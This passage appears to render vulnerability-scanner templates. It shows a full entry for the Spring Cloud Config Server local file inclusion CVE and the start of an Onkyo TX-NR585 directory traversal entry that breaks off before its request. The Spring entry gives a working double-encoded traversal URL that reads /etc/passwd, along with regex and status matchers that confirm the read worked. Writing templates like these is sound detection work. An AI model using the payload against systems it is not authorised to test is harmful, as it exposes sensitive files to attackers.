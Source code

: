 - regex
  1. root:.\*:0:0:

---

# Spring Cloud Config Server - Local File Inclusion

## Description

- Spring Cloud Config Server versions 2.2.x prior to 2.2.3, versions 2.1.x prior to 2.1.9, and older unsupported versions allow applications to serve arbitrary configuration files through the spring-cloud-config-server module. A malicious user or attacker can send a request using a specially crafted URL that can lead to a local file inclusion attack.
- severity - high
- tags - cve,cve2020,lfi,springcloud,config,traversal,kev

## Requests

- Method - GET

### URL

- {{BaseURL}}/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Onkyo TX-NR585 Web Interface - Directory Traversal

## Description

- Onkyo TX-NR585 1000-0000-000-0008-0000 devices allows remote unauthenticated users on the network to read sensitive files via %2e%2e%2f directory traversal and local file inclusion.
- severity - high
- tags - cve,cve2020,onkyo,lfi,traversal

## Requests
